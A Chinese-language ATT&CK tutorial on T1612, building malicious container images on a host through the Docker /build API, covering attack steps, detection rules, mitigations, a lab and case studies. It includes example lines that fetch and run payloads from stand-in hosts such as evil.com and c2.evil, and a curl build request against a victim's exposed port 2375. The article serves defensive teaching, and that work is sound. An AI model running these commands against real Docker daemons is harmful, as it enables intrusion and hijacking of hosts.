

# 在主机上构建镜像 (T1612)

## 一句话通俗理解

攻击者像小偷把"赃物"在受害人家门口现做现装——不直接走私被通缉的"违禁品"（恶意镜像），而是在你家厨房里用合法买来的原料（vanilla基础镜像）现做一份"加料"的菜，安全检查盯着门口当然查不到违禁品，因为"加料"是在屋里完成的。

## 30秒速查卡

| 维度 | 你需要知道的 |
|------|-------------|
| 这是什么？ | 攻击者直接调用主机上的Docker/Kubernetes API，用一个看似无害的基础镜像（如alpine）从公开仓库拉取，再在主机本地"现做"一个包含恶意内容的自定义镜像 |
| 为什么危险？ | 防御系统通常监控"从公开仓库拉取已知恶意镜像"的行为，但本地构建出来的镜像从未经过任何镜像仓库扫描——恶意内容是"在屋里组装"的，绕过了仓库侧的静态扫描与签名校验 |
| 谁需要关心？ | 容器平台运维、DevSecOps工程师、云安全分析师、Kubernetes集群管理员、运行时安全产品研发 |
| 你的第一步防御 | 关闭Docker daemon的2375未授权TCP端口，仅允许通过Unix socket或TLS双向认证的2376端口访问；启用Kubernetes审计日志监控`build`类请求 |
| 如果只做一件事 | 在主机上启用Docker daemon audit（审计`/usr/bin/docker`调用与`POST /build` API请求），告警"非CI/CD管道时间窗口内出现的image build请求" |

## 难度等级

⭐⭐ 中级（需要容器运行时与API基础知识）

在主机上构建镜像属于中级隐蔽技术，原因在于：

- 攻击者需要理解Docker Engine API的`/build`端点工作机制，能够构造合法的Dockerfile与构建上下文（tar包）
- 必须先获得对Docker daemon的访问权——要么通过暴露的2375/TCP未授权端口（这是最常见的入侵路径），要么通过宿主机shell、容器逃逸或Kubernetes API的特权访问
- 防御方只要正确配置TLS、网络分段与RBAC，并启用镜像签名校验，就能大幅压缩该技术的可用空间

技术本身的"门槛"不高，但"前置条件"（获取Docker API访问权）需要相当的入侵深度。这就是为什么它属于中级而不是初级——攻击者通常已经在你的环境里站稳脚跟了。

## 前置知识检查

**读这个文件需要什么？**

- [ ] Docker Engine API基础（特别是`POST /v1.x/build`端点与`docker build`命令的工作原理）
- [ ] Docker daemon的访问控制模型：Unix socket（默认）vs TCP 2375（明文，无认证）vs TCP 2376（TLS双向认证）
- [ ] 容器镜像分层结构（base image + Dockerfile指令层）与镜像仓库扫描（image scan）的工作位置
- [ ] Kubernetes API与kubelet API的区别，以及Pod Security Standards对特权容器的限制
- [ ] 容器运行时事件日志（`docker events`、containerd `/events`、Kubernetes Audit Log）的字段结构

## 技术描述

在主机上构建镜像（T1612）是MITRE ATT&CK框架中**属于隐蔽（TA0005）战术**的容器类技术。攻击者通过直接调用容器运行时的`build` API，在受害主机上"现场构建"一个包含恶意内容的自定义镜像，从而绕过镜像仓库侧的静态扫描、签名校验与策略准入控制。

**通俗解释：**

想象你小区门口有保安检查快递——所有从外面寄进来的包裹都要开箱验视，发现违禁品就拦截。但是，如果你能进到小区里的厨房，自己用合法买来的面粉、调料（基础镜像）"现做"一份加了"特殊配料"的食物（恶意镜像），那保安再严也查不到——因为他根本没机会看到这个食物，它从来没出过小区大门。

容器安全的传统思路是"卡住入口"：镜像仓库扫描器（Trivy、Clair、Aqua）会扫描每个被pull的镜像，签名校验（Cosign、Notary）会拒绝未签名镜像，准入控制器（OPA Gatekeeper、Kyverno）会拒绝不符合策略的部署。这些防御都假设"镜像来自外部仓库"。

T1612绕过了这个假设——攻击者直接在主机本地调用Docker daemon的`/build` API，发送一个Dockerfile（其中可能包含`RUN curl http://evil.com/malware.sh | sh`这样的指令），daemon会从公开仓库拉取一个无害的基础镜像（如alpine、ubuntu），然后在主机本地执行Dockerfile里的每条指令，最终生成一个全新的、从未经过任何仓库扫描的恶意镜像。

**过渡段：** T1612的精髓在于"绕过入口检查"——它不试图伪造签名、不试图绕过扫描器、不试图欺骗准入控制器，而是直接跳过整个"镜像供应链"环节，在主机本地完成"组装"。这意味着传统基于镜像仓库的防御全部失效，防御重心必须从"入口扫描"转移到"运行时审计"。下面我们看看攻击者具体怎么操作。

**技术原理：**

### 一、Docker Engine API的`/build`端点

Docker daemon提供RESTful API，其中`POST /v1.x/build`端点接收一个tar格式的"构建上下文"（build context），里面包含Dockerfile以及所有需要打包进镜像的文件。daemon会：

1. 解析tar包，读取Dockerfile
2. 按照`FROM`指令从配置的镜像仓库拉取基础镜像
3. 依次执行`RUN`、`COPY`、`ADD`等指令，每条指令生成一个新的镜像层
4. 最终输出一个新的镜像ID，存储在daemon的本地镜像缓存中

整个过程对daemon来说是"合法操作"——它就是为构建镜像而设计的。但攻击者利用这个端点可以：

- 在`RUN`指令中下载并执行任意恶意代码（`RUN wget http://c2.evil/payload -O /tmp/payload && chmod +x /tmp/payload`）
- 在`COPY`指令中把恶意二进制文件打包进镜像
- 利用多阶段构建在构建阶段执行恶意脚本

### 二、攻击入口：如何到达Docker API

攻击者要利用T1612，首先需要能够向Docker daemon发送请求。常见的入口包括：

1. **暴露的TCP 2375端口**：运维为了"方便调试"将Docker daemon监听在`0.0.0.0:2375`且未启用TLS。这是最常见的入侵路径——Shodan上长期有数千个暴露的Docker API。攻击者只需`DOCKER_HOST=tcp://victim:2375 docker build ...`即可远程构建。
2. **暴露的TCP 2376端口（无认证TLS）**：启用了TLS但未配置客户端证书校验，效果与2375类似。
3. **宿主机shell访问**：攻击者已经获得了宿主机的root或docker组用户权限，可以直接通过Unix socket（`/var/run/docker.sock`）调用Docker API。
4. **容器逃逸或挂载docker.sock**：攻击者在一个挂载了`/var/run/docker.sock`的特权容器内，可以直接调用宿主机Docker API。
5. **Kubernetes特权Pod**：在Kubernetes环境中，特权Pod或挂载了主机docker.sock的Pod可以执行同样的攻击。

### 三、典型攻击链：T1612 → T1610

T1612很少单独使用，它几乎总是与[T1610 部署容器](../04-Execution/T1610-Deploy-Container.md)配合：

```
1. 攻击者获得Docker API访问权
2. [T1612] 调用 /build API，发送恶意Dockerfile
   - Dockerfile: FROM alpine\nRUN wget http://c2.evil/payload -O /root/payload\nRUN chmod +x /root/payload
   - daemon拉取alpine（无害基础镜像，不触发仓库扫描告警）
   - daemon执行RUN指令，下载并打包恶意payload
   - 生成新镜像（如sha256:abc123...）
3. [T1610] 调用 /containers/create API，使用刚才构建的镜像启动容器
   - 容器启动时自动执行恶意payload
   - 容器可能配置--privileged、挂载宿主机根目录等实现逃逸
4. 攻击者获得持久化的恶意执行环境
```

由于基础镜像（alpine）是无害的，仓库侧扫描器不会告警；由于新镜像从未经过任何仓库，签名校验也无法拦截；由于`build`与`run`都是Docker daemon的合法操作，运行时检测需要"行为链分析"才能识别异常。

### 四、为什么传统防御失效

| 防御措施 | 为什么对T1612失效 |
|----------|-------------------|
| 镜像仓库扫描（Trivy/Clair） | 攻击者构建的镜像从未经过任何仓库——它直接在daemon本地生成 |
| 镜像签名校验（Cosign/Notary） | 新构建的镜像没有签名，但如果准入策略允许本地构建镜像部署，则校验不触发 |
| 准入控制器（OPA/Kyverno） | 通常检查"从仓库pull的镜像"，对本地build的镜像可能不生效 |
| 网络流量监控 | alpine基础镜像的拉取是正常流量，恶意payload可能通过加密通道下载 |
| 进程监控 | `dockerd`进程本身是合法的，需要深入到API调用层面才能发现异常 |

**用途与影响：**

T1612是云原生环境专用的隐蔽技术，主要价值在于"绕过镜像供应链防御"。根据Aqua Security Team Nautilus团队的研究（2020-2021），攻击者在野外环境中频繁使用T1612：

- **加密货币挖矿**：构建包含XMRig等挖矿程序的镜像，部署为容器长期占用CPU资源
- **后门植入**：构建包含反弹shell或C2 agent的镜像，建立持久化访问通道
- **横向移动跳板**：构建包含nmap、kubectl等工具的镜像，作为攻击Kubernetes集群的跳板
- **规避取证**：构建的镜像可以随时`docker rmi`删除，不留镜像仓库层面的痕迹

由于容器环境的"短暂性"特征，T1612结合T1610可以让攻击者在分钟级别完成"构建-部署-执行-销毁"的完整攻击循环，给取证带来极大挑战。

## 真实攻击流程

### 典型攻击流程

```
扫描暴露的Docker API --> 验证未授权访问 --> 构造恶意Dockerfile --> 调用/build API本地构建 --> 调用/containers/create部署 --> 恶意容器执行payload --> 持久化与横向移动
```



**步骤详解：**

1. **扫描暴露的Docker API**
   - 通俗描述：攻击者像在小区门口转悠，找没上锁的侧门
   - 技术细节：使用Shodan、Censys搜索`port:2375 product:Docker`，或用nmap扫描`2375/tcp open docker`，识别未授权可访问的Docker daemon
   - 常用工具：Shodan、Censys、nmap、`docker -H`探测脚本

2. **验证未授权访问**
   - 通俗描述：试一下门把手，看能不能直接推开
   - 技术细节：`curl http://victim:2375/version` 或 `docker -H tcp://victim:2375 info`，如果返回JSON即确认未授权
   - 常用工具：curl、docker CLI、自定义探测脚本

3. **构造恶意Dockerfile**
   - 通俗描述：写一份"加料菜谱"，告诉daemon怎么做这份恶意食物
   - 技术细节：Dockerfile通常以`FROM alpine`开头（无害基础镜像），通过`RUN wget/curl`下载payload，通过`CMD`或`ENTRYPOINT`设置启动时执行
   - 常用工具：手写Dockerfile、msfvenom生成的payload

4. **调用/build API本地构建**
   - 通俗描述：把菜谱交给厨房（daemon），让它现场做出来
   - 技术细节：将Dockerfile打包为tar，通过`POST /v1.41/build`发送给daemon；daemon拉取alpine、执行RUN指令、生成新镜像
   - 常用工具：`docker build`、`curl -X POST -H "Content-Type: application/x-tar" --data-binary @context.tar http://victim:2375/v1.41/build`

5. **部署恶意容器（配合T1610）**
   - 通俗描述：把刚做好的食物端上桌（启动容器），让payload跑起来
   - 技术细节：`docker run -d --privileged <new_image_id>`，可能挂载宿主机根目录实现逃逸
   - 常用工具：`docker run`、`POST /containers/create` + `POST /containers/{id}/start`

6. **清理痕迹**
   - 通俗描述：吃完擦嘴，把餐具扔掉
   - 技术细节：`docker rm <container_id>` + `docker rmi <image_id>`，删除构建缓存
   - 常用工具：`docker rm`、`docker rmi`、`docker system prune`

## 子技术概览

**该技术共有 0 个子技术。**

T1612 是一个原子级技术，没有进一步细分的子技术。攻击者利用Docker Engine API的`/build`端点（或等价的`docker build` CLI命令）在主机本地构建自定义镜像，这一行为本身就是一个完整的操作单元，不需要也不存在针对不同构建方式、不同运行时的子技术划分。

如需了解相关容器技术，请参考：

- [T1610 部署容器](../04-Execution/T1610-Deploy-Container.md) - 执行战术，T1612构建的镜像通常通过T1610部署运行
- [T1611 逃逸到主机](../06-Privilege-Escalation/T1611-Escape-to-Host.md) - 权限提升战术，特权容器内的攻击者可借助挂载的docker.sock反向利用宿主机daemon

## 检测建议

**用人话说：** T1612的检测核心是"在Docker daemon的API层面建立行为基线，识别非预期的build请求"。正常情况下，镜像构建应该只发生在CI/CD管道（如Jenkins、GitLab CI）的特定时间窗口和特定节点上——一旦在普通业务节点、非工作时间出现`POST /build`请求，就高度可疑。同时，要重点关注"build后立即run"的行为链，这是T1612+T1610攻击的标志性模式。

### 网络层检测

**检测方法：** 监控对Docker daemon端口（2375/TCP、2376/TCP）的入站连接，识别来自非授权IP的API请求。重点关注：

1. 来自互联网或非管理网段的2375/2376端口访问
2. `POST /v1.x/build`请求中出现的外部URL（如`RUN wget http://...`、`RUN curl http://...`）
3. 拉取基础镜像后立即出现的出站连接（可能是daemon在执行RUN指令时下载payload）

### 主机层检测

**Docker daemon审计日志：**

启用Docker daemon的审计，监控关键API调用：

```bash
# 启用Docker daemon审计（/etc/audit/audit.rules）
-w /usr/bin/dockerd -p wa -k docker_daemon
-w /var/run/docker.sock -p wa -k docker_socket
-w /etc/docker/ -p wa -k docker_config
```

**Docker daemon事件流：**

```bash
# 实时监控Docker daemon事件，关注build与import事件
docker events --filter 'event=image' --filter 'event=container' --since '1h'

# 查询本地镜像列表，识别非CI/CD管道构建的镜像
docker images --format '{{.Repository}}:{{.Tag}} {{.CreatedAt}} {{.ID}}' | grep -v 'docker.io'

# 查询正在运行的容器，识别使用本地构建镜像的容器
docker ps --format '{{.Image}} {{.Command}} {{.CreatedAt}}' | awk '{print $1}' | while read img; do
    # 检查镜像是否来自外部仓库（带仓库前缀）
    if [[ ! "$img" =~ ^[a-zA-Z0-9.-]+/ ]]; then
        echo "[警告] 容器使用本地构建镜像: $img"
    fi
done
```

**Kubernetes审计日志：**

```yaml
# kube-apiserver审计策略（/etc/kubernetes/audit-policy.yaml）
apiVersion: audit.k8s.io/v1
kind: Policy
rules:
  - level: RequestResponse
    verbs: ["create", "update", "patch"]
    resources:
      - group: ""
        resources: ["pods"]
    namespaces: ["kube-system", "default"]
  # 监控特权Pod的创建（可能是T1612+T1610攻击的后续）
  - level: RequestResponse
    verbs: ["create"]
    resources:
      - group: ""
        resources: ["pods"]
```

```bash
# 检查特权Pod（可能挂载docker.sock用于T1612攻击）
kubectl get pods --all-namespaces -o jsonpath='{range .items[*]}{.metadata.name}{"\t"}{.spec.containers[*].securityContext.privileged}{"\n"}{end}' | grep true

# 检查挂载docker.sock的Pod
kubectl get pods --all-namespaces -o jsonpath='{range .items[*]}{.metadata.name}{"\t"}{.spec.volumes[*].hostPath.path}{"\n"}{end}' | grep docker.sock
```

### 应用层检测

**检测要点：**

1. **Docker API build请求检测**
   - 日志来源：Docker daemon日志（`/var/log/dockerd.log` 或 journald）、容器运行时事件流
   - 关注字段：HTTP方法（POST）、API路径（`/v1.x/build`）、客户端IP、构建上下文大小
   - 异常特征：非CI/CD节点发起的build请求；非工作时间（如凌晨2点）的build请求；构建上下文中包含外部URL

2. **镜像来源异常检测**
   - 日志来源：Docker daemon镜像事件（`docker events --filter event=image`）
   - 关注字段：镜像ID、构建来源（`docker build` vs `docker pull`）、父镜像
   - 异常特征：通过`docker build`生成的新镜像（无仓库前缀），且父镜像为alpine/ubuntu等基础镜像

3. **行为链分析：build → run**
   - 日志来源：Docker daemon容器事件（`docker events --filter event=container`）
   - 关注字段：容器创建时间、所用镜像ID、容器配置（privileged、挂载路径）
   - 异常特征：新镜像构建后短时间内（<5分钟）被部署为容器，且容器配置为`--privileged`或挂载宿主机路径

4. **Docker daemon端口暴露检测**
   - 日志来源：网络流量监控、防火墙日志
   - 关注字段：目的端口2375、2376，源IP
   - 异常特征：来自非管理网段或互联网的2375/2376端口连接

## 检测规则示例

### Sigma规则：检测Docker daemon的未授权build请求

```yaml
title: Docker Daemon非预期image build请求检测
id: a1b2c3d4-e5f6-4a7b-8c9d-0e1f2a3b4c5d
status: experimental
description: 检测Docker daemon接收到非CI/CD来源的POST /build API请求，可能表明T1612在主机上构建镜像
references:
    - https://attack.mitre.org/techniques/T1612/
    - https://blog.aquasec.com/malicious-container-image-docker-container-host
author: ATT&CK知识库
date: 2026/07/24
logsource:
    product: linux
    service: docker
detection:
    selection_build_api:
        Message|contains:
            - 'POST /v1.'
            - '/build'
            - 'dockerd'
    selection_build_cmd:
        Message|contains:
            - 'docker build'
            - 'ImageBuild'
    filter_ci_cd:
        SourceIP|cidr:
            - '10.0.10.0/24'   # CI/CD网段
            - '10.0.20.0/24'   # 构建节点网段
    filter_offhours:
        TimeGenerated|re: '^(0[0-9]|1[0-9]|2[0-3]):'  # 简化示例，实际应配置工作时间白名单
    condition: (selection_build_api or selection_build_cmd) and not filter_ci_cd
falsepositives:
    - 开发人员在业务节点上临时调试构建（需建立基线白名单）
    - 自动化运维脚本在非工作时间执行镜像构建
level: high
tags:
    - attack.t1612
    - attack.defense_evasion
    - attack.t1610
```

### Sigma规则：检测本地构建镜像的特权容器部署（T1612+T1610行为链）

```yaml
title: 本地构建镜像立即部署为特权容器检测
id: b2c3d4e5-f6a7-4b8c-9d0e-1f2a3b4c5d6e
status: experimental
description: 检测通过docker build新构建的镜像在短时间内被部署为特权容器，可能表明T1612+T1610攻击链
references:
    - https://attack.mitre.org/techniques/T1612/
    - https://attack.mitre.org/techniques/T1610/
author: ATT&CK知识库
date: 2026/07/24
logsource:
    product: linux
    service: docker
detection:
    selection_image_build:
        Event: image
        Action: build
        ImageSource: local
    selection_container_create:
        Event: container
        Action: create
        Privileged: 'true'
    timeframe: 5m
    condition: selection_image_build | near selection_container_create
falsepositives:
    - 安全测试环境中的容器逃逸演练
    - 特殊场景下需要特权访问的合法业务容器（应建立基线白名单）
level: critical
tags:
    - attack.t1612
    - attack.t1610
    - attack.defense_evasion
    - attack.execution
```

### Falco规则：运行时检测容器内的docker.sock调用

```yaml
- rule: 容器内调用宿主机Docker API
  desc: 检测容器进程访问挂载的docker.sock，可能是T1612攻击的入口
  condition: >
    evt.type in (connect, write) and
    fd.name contains 'docker.sock' and
    container.id != host
  output: >
    容器内进程访问docker.sock（可能是T1612入口）
    [user=%user.name container=%container.name image=%container.image.repository
    cmd=%proc.cmdline pid=%proc.pid socket=%fd.name]
  priority: WARNING
  tags:
    - attack.t1612
    - attack.t1610
    - container
```

## 缓解措施

### 优先级1：关键措施

**措施名称：** 关闭Docker daemon的未授权TCP端口，强制使用TLS双向认证或Unix socket

**具体实施步骤：**
1. 立即检查Docker daemon配置（`/etc/docker/daemon.json`与`/etc/systemd/system/docker.service`），确认未监听`0.0.0.0:2375`
2. 若必须远程访问Docker API，启用TLS双向认证（端口2376），生成并配置daemon与客户端证书
3. 配置`hosts`项仅监听`unix:///var/run/docker.sock`，移除所有`tcp://0.0.0.0:2375`配置
4. 在防火墙层面拒绝2375/TCP的入站连接，仅允许特定管理IP访问2376/TCP

```bash
# 生成TLS证书（CA + daemon证书 + 客户端证书）
openssl genrsa -aes256 -out ca-key.pem 4096
openssl req -new -x509 -days 365 -key ca-key.pem -sha256 -out ca.pem
# ... 后续生成daemon与客户端证书（参考Docker官方文档）

# /etc/docker/daemon.json
{
  "tls": true,
  "tlsverify": true,
  "tlscacert": "/etc/docker/ca.pem",
  "tlscert": "/etc/docker/server-cert.pem",
  "tlskey": "/etc/docker/server-key.pem",
  "hosts": ["unix:///var/run/docker.sock", "tcp://0.0.0.0:2376"]
}
```

### 优先级2：重要措施

**措施名称：** 启用镜像签名校验与准入控制策略

**具体实施步骤：**
1. 在Kubernetes集群中部署OPA Gatekeeper或Kyverno准入控制器
2. 配置策略要求所有部署的镜像必须来自受信任的仓库（拒绝本地构建的未签名镜像）
3. 启用镜像签名（Cosign或Notary）并对CI/CD管道构建的镜像自动签名
4. 在daemon层面配置`--signature-policy`拒绝未签名镜像运行（适用于特定运行时）

```yaml
# Kyverno策略示例：仅允许来自受信任仓库的镜像
apiVersion: kyverno.io/v1
kind: ClusterPolicy
metadata:
  name: only-trusted-images
spec:
  validationFailureAction: enforce
  rules:
    - name: require-trusted-registry
      match:
        resources:
          kinds: ["Pod"]
      validate:
        message: "镜像必须来自受信任的仓库"
        pattern:
          spec:
            containers:
              - image: "harbor.company.com/* | docker.io/library/*"
```

### 优先级3：建议措施

**措施名称：** 实施网络分段与Pod Security Standards

**具体实施步骤：**
1. 在Kubernetes集群中启用Pod Security Standards（PSS）的`restricted`级别，禁止特权容器与主机路径挂载
2. 通过NetworkPolicy限制Pod间的网络访问，仅允许业务Pod访问必要的下游服务
3. 在主机层面配置iptables/nftables规则，限制容器对宿主机网络的访问
4. 部署运行时安全工具（Falco、Aqua、Sysdig Secure）监控容器内的可疑行为

```yaml
# Kubernetes Pod Security Standards - restricted级别
apiVersion: v1
kind: Namespace
metadata:
  name: production
  labels:
    pod-security.kubernetes.io/enforce: restricted
    pod-security.kubernetes.io/audit: restricted
    pod-security.kubernetes.io/warn: restricted
```

### MITRE ATT&CK 缓解措施映射

| 缓解措施ID | 缓解措施名称 | 适用性 | 说明 |
|------------|-------------|--------|------|
| M1047 | 审计 | 适用 | 审计环境中部署的镜像，确保不包含恶意组件；监控Docker daemon的build API调用 |
| M1035 | 限制网络资源访问 | 适用 | 将容器服务通信限制为本地Unix socket或SSH远程访问；要求通过TLS（端口2376）访问Docker API，禁用未认证的2375端口 |
| M1030 | 网络分段 | 适用 | 通过网络代理、网关与防火墙拒绝对内部系统的直接远程访问 |
| M1026 | 特权账户管理 | 适用 | 确保容器默认不以root运行；在Kubernetes环境中定义Pod Security Standards禁止特权容器 |

## 动手实验

> ⚠️ **重要提示**：所有实验必须在隔离的实验室环境中进行，禁止对未授权的真实系统进行测试。

### 实验环境准备

**所需工具：**
- Linux虚拟机（Ubuntu 22.04或CentOS 8+）
- Docker Engine 24.x
- curl、jq
- 一个简单的HTTP服务器（用于模拟payload下载，可用`python3 -m http.server`）

### 实验1：模拟T1612本地构建恶意镜像（初级）

**实验目标：** 理解T1612的工作原理，观察通过Docker API构建自定义镜像的过程

**实验步骤：**
1. 在虚拟机上启动Docker daemon，确认仅监听Unix socket：
   ```bash
   sudo ss -tlnp | grep docker
   # 应看到 /var/run/docker.sock 而非 0.0.0.0:2375
   ```
2. 准备一个"恶意payload"（用echo模拟，实际场景中可能是反弹shell）：
   ```bash
   mkdir -p /tmp/payload-server
   echo '#!/bin/sh
   echo "[!] T1612模拟payload已执行" > /tmp/t1612_proof.txt
   while true; do sleep 60; done' > /tmp/payload-server/payload.sh
   chmod +x /tmp/payload-server/payload.sh
   cd /tmp/payload-server && python3 -m http.server 8888 &
   ```
3. 构造恶意Dockerfile并打包为tar：
   ```bash
   mkdir -p /tmp/build-context
   cat > /tmp/build-context/Dockerfile << 'EOF'
   FROM alpine:3.18
   RUN apk add --no-cache curl
   RUN curl -s http://host.docker.internal:8888/payload.sh -o /payload.sh
   RUN chmod +x /payload.sh
   CMD ["/payload.sh"]
   EOF
   cd /tmp/build-context && tar -czf /tmp/context.tar .
   ```
4. 通过Docker API（本地Unix socket）发送build请求：
   ```bash
   curl --unix-socket /var/run/docker.sock \
        -X POST \
        -H "Content-Type: application/x-tar" \
        --data-binary @/tmp/context.tar \
        "http://localhost/v1.41/build?t=evil-image:v1"
   ```
5. 查看新构建的镜像：
   ```bash
   docker images | grep evil-image
   ```
6. 部署容器（模拟T1610）：
   ```bash
   docker run -d --name evil-container evil-image:v1
   sleep 3
   docker exec evil-container cat /tmp/t1612_proof.txt
   # 应看到 [!] T1612模拟payload已执行
   ```
7. 清理：
   ```bash
   docker rm -f evil-container
   docker rmi evil-image:v1
   ```

**预期结果：** 通过API调用在主机本地构建了一个包含"恶意payload"的镜像，部署后payload在容器内执行

**学习要点：** 理解Docker daemon的`/build` API如何工作，以及为什么这种"本地构建"模式能绕过镜像仓库扫描

### 实验2：检测T1612构建行为（中级）

**实验目标：** 理解如何检测T1612攻击，掌握基于Docker daemon日志的检测方法

**实验步骤：**
1. 启用Docker daemon的审计：
   ```bash
   echo '-w /usr/bin/dockerd -p wa -k docker_daemon' | sudo tee -a /etc/audit/rules.d/docker.rules
   echo '-w /var/run/docker.sock -p wa -k docker_socket' | sudo tee -a /etc/audit/rules.d/docker.rules
   sudo augenrules --load
   ```
2. 配置Docker daemon日志级别为debug：
   ```bash
   sudo jq '.debug = true' /etc/docker/daemon.json > /tmp/daemon.json
   sudo mv /tmp/daemon.json /etc/docker/daemon.json
   sudo systemctl restart docker
   ```
3. 重复实验1的构建步骤，然后检查审计日志：
   ```bash
   sudo ausearch -k docker_daemon | tail -50
   sudo journalctl -u docker --since '5 minutes ago' | grep -i build
   ```
4. 编写一个简单的检测脚本，告警非工作时间的build请求：
   ```bash
   #!/bin/bash
   # /usr/local/bin/detect-t1612.sh
   journalctl -u docker --since '1 hour ago' |
     grep -i 'POST.*\/build\|ImageBuild' |
     awk -F'[T+]' '{print $2}' |
     awk -F: '{hour=$1; if (hour < 8 || hour > 18) print "[!] 非工作时间build请求: " $0}'
   ```
5. 运行检测脚本，确认能识别实验1中的构建行为

**预期结果：** 审计日志与daemon日志中均记录了build API调用，检测脚本能识别异常构建行为

**学习要点：** 掌握Docker daemon的审计配置方法，理解行为链分析在T1612检测中的应用

## 真实案例

### 案例1：Team Nautilus发现的大规模Docker API滥用攻击（2020-2021）

- **时间**：2020年7月-2021年6月
- **目标**：互联网上暴露2375/TCP端口的Docker daemon（全球数千台主机）
- **攻击组织**：未归因到具体APT组织，Aqua Security Team Nautilus团队追踪
- **手法**：攻击者扫描互联网上暴露的未授权Docker API（端口2375），通过`POST /v1.x/build`端点在受害主机上本地构建恶意镜像。Dockerfile以`FROM alpine`开头，通过`RUN`指令下载XMRig加密货币挖矿程序与kinsing恶意软件。构建完成后立即通过`docker run`部署为容器，并配置为`--restart=always`实现持久化。由于基础镜像alpine无害，且新镜像从未经过任何仓库扫描，受害主机的镜像安全策略完全失效。攻击者还在构建过程中加入了清理脚本，定期删除构建日志与镜像缓存以规避取证。
- **影响**：数千台主机被用于加密货币挖矿，部分主机因kinsing恶意软件的横向移动能力被进一步入侵
- **参考链接**：[Aqua Security - Threat Alert: Attackers Building Malicious Images on Your Hosts](https://blog.aquasec.com/malicious-container-image-docker-container-host)、[Aqua Security Cloud Native Threat Report 2021](https://info.aquasec.com/hubfs/Threat%20reports/AquaSecurity_Cloud_Native_Threat_Report_2021.pdf)

### 案例2：Hildegard恶意软件针对Docker与Kubernetes的攻击（2020）

- **时间**：2020年
- **目标**：暴露Docker API与Kubernetes kubelet API的云原生环境
- **攻击组织**：Team Nautilus追踪，归因趋势指向TeamTNT组织变种
- **手法**：Hildegard恶意软件在获得Docker daemon访问权后，通过`/build` API构建自定义镜像，包含XMRig挖矿程序与C2回连脚本。Dockerfile使用`FROM ubuntu:20.04`作为基础镜像，通过多阶段构建在构建阶段下载并混淆payload，最终镜像中只包含混淆后的二进制文件，进一步规避静态分析。构建的镜像随后通过`docker run -d --name hildegard --privileged`部署，特权模式使容器能够访问宿主机资源实现横向移动。攻击者还通过T1612构建包含`kubectl`与`nmap`的"工具箱镜像"，作为攻击集群内其他节点的跳板。
- **影响**：多个Kubernetes集群被入侵，CPU资源被挖矿程序大量占用，部分集群凭证被窃取
- **参考链接**：[Aqua Security - Team Nautilus Threat Report](https://info.aquasec.com/hubfs/Threat%20reports/AquaSecurity_Cloud_Native_Threat_Report_2021.pdf)

### 案例3：CyberReason追踪的Docker API挖矿攻击活动（2021）

- **时间**：2021年
- **目标**：全球范围内错误配置Docker daemon的云主机
- **攻击组织**：未明确归因，与Doki恶意软件家族相关
- **手法**：攻击者利用暴露的Docker API在主机上构建包含Doki恶意软件的镜像。Doki是一种基于Docker API的"无文件"恶意软件——它通过`/build` API构建一个仅包含`alpine`基础镜像与一条`RUN`指令的极简镜像，`RUN`指令通过`wget`从C2服务器（域名通过NGrok动态生成）下载payload并在构建过程中直接执行（而非打包进镜像）。这种"构建即执行"的模式使得最终镜像几乎是干净的alpine副本，进一步增加了取证难度。攻击者通过这种方式实现了"无镜像痕迹"的攻击——恶意代码只在构建过程中存在，构建完成后镜像与容器看起来都无害。
- **影响**：数百台主机被入侵，部分主机作为僵尸网络节点参与DDoS攻击
- **参考链接**：[MITRE ATT&CK - T1612](https://attack.mitre.org/techniques/T1612/)、[Aqua Security - Doki Analysis](https://blog.aquasec.com/)

## 术语解释

| 术语 | 英文原名 | 通俗解释 |
|------|----------|----------|
| 在主机上构建镜像 | Build Image on Host | 直接调用容器运行时的build API在受害主机本地构建自定义镜像 |
| Docker daemon | Docker Daemon | Docker的守护进程，监听Unix socket或TCP端口提供RESTful API |
| Docker Engine API | Docker Engine API | Docker daemon提供的HTTP RESTful接口，包括/build、/containers等端点 |
| 构建上下文 | Build Context | 通过tar包发送给Docker daemon的构建输入，包含Dockerfile与相关文件 |
| 基础镜像 | Base Image | Dockerfile中FROM指令指定的父镜像，通常是alpine、ubuntu等无害镜像 |
| 镜像仓库扫描 | Image Registry Scan | 在镜像仓库侧对镜像进行静态扫描，检测已知漏洞与恶意软件 |
| 镜像签名 | Image Signing | 用密码学签名保证镜像完整性与来源可信，常用工具为Cosign与Notary |
| 准入控制器 | Admission Controller | Kubernetes API Server的拦截器，在资源创建前校验策略合规性 |
| Pod Security Standards | Pod Security Standards | Kubernetes内置的Pod安全策略级别（privileged/baseline/restricted） |
| docker.sock | Docker Socket | Docker daemon的Unix domain socket，默认路径为/var/run/docker.sock |
| 特权容器 | Privileged Container | 拥有宿主机所有能力的容器，可访问宿主机设备与文件系统 |
| 容器逃逸 | Container Escape | 攻击者从容器内突破隔离，获得宿主机权限的过程 |

## 参考资料

### 📚 官方文档（深入了解）

- [MITRE ATT&CK - T1612 Build Image on Host](https://attack.mitre.org/techniques/T1612/)
- [MITRE ATT&CK - TA0005 Stealth](https://attack.mitre.org/tactics/TA0005/)
- [Docker Engine API v1.41 Reference - Build an Image](https://docs.docker.com/engine/api/v1.41/#operation/ImageBuild)
- [Docker - Protect the Docker Daemon Socket](https://docs.docker.com/engine/security/protect-access/)
- [NSA/CISA - Kubernetes Hardening Guide (2022)](https://media.defense.gov/2022/Aug/29/2003066362/-1/-1/0/CTR_KUBERNETES_HARDENING_GUIDANCE_1.2_20220829.PDF)

### 📰 安全报告（真实攻击）

